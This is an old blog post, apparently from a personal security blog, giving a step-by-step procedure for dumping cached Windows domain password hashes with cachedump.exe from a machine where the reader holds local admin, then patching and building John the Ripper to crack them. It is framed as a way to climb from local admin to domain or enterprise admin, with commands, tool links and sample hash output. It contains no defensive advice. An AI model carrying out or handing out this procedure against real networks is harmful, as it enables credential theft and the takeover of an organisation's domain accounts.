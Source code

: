 ```yaml
---
id: 8
title: Grabbing And Cracking Cached Domain Hashs(mscash) w/ John
date: 2005-10-28T19:15:00+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=8
permalink: /?p=8
blogger_blog:
  - informationintoxication.blogspot.com
blogger_author:
  - Devinhttp://www.blogger.com/profile/15793900111446118223noreply@blogger.com
blogger_permalink:
  - /2005/10/grabbing-and-cracking-cached-domain_28.html
categories:
  - Uncategorized
tags:
  - Cracking
---
```

This is something I wrote up a while back. Not that great but wanted to document it before I lost it.

&#8212;

Background: Its great gaining local admin on a windows box,but then you are limited to that box.
  
Its much more useful getting a Domain user or even Domain Enterprise Admin!
  
Assumming you are on a Domain.
  
Most Windows Domains have password caching turned on.
  
Which means anytime a domain user logs into the box it is cached in the registry with SYSTEM rights.
  
Now lets see how we can grab this and crack it.

Note: I only did this in Linux, I have no idea if it work in windows.
  
Also, I will not go into much technical details on the caching. Google if you want to learn more.
  
The info is out there.

Tools: 1. John The Ripper(1.6.37) &#8211; <http://www.openwall.com/john/> (you will need the src, we will patch it)
  
2. mscashdump &#8211; <http://www.off-by-one.net/misc/cachedump.html>
  
3. John The Ripper Patch &#8211; <http://www.banquise.net/misc/patch-john.html> (get &#8220;the big patch&#8221;)

Steps: 1. Compile and Patch John(john dir and patch must be in same dir)
  
-tar xfz john-1.6.37.tar.gz
  
-gunzip -c john-1.6.37-bigpatch-13.diff.gz | patch -p0 (should see it patching files)
  
-cd john-1.6.37/src/
  
-make

Note: Now you have john patched,it can accept much more hashes such as mscash. Another favorite
  
of mine is Lotus Notes, its pretty easy to get anyone’s Notes hash without even being a user.
  
I&#8217;ll save that for a different doc, we&#8217;ll stick with mscash.

2. Get cached passwords from windows box (must be local admin)
  
-cmd.exe
  
-cachedump.exe -v (should first install a service to get SYSTEM rights)
  
-Output should look like the following.

CacheDump service successfully installed.
  
Service started.
  
user1:5E9092870891234FEF30940952359045633456:domain:
  
domainadmin:D938458093490BF9035649095CC334:domain:
  
user2:8982390FAB93099EF30940945745:domain:
  
Service successfully removed.

-copy and paste the hashs to a txt file for john.

3. Now we get to crack it. Your choice on brute or dict.
  
-./john -format:mscash ./mshashs.txt

Note: Now you just have to wait. Depending on how good the password is.
  
And that’s It. Have Fun

References:
  
<http://www.off-by-one.net/misc/cachedump.html>
  
<http://www.banquise.net/misc/patch-john.html>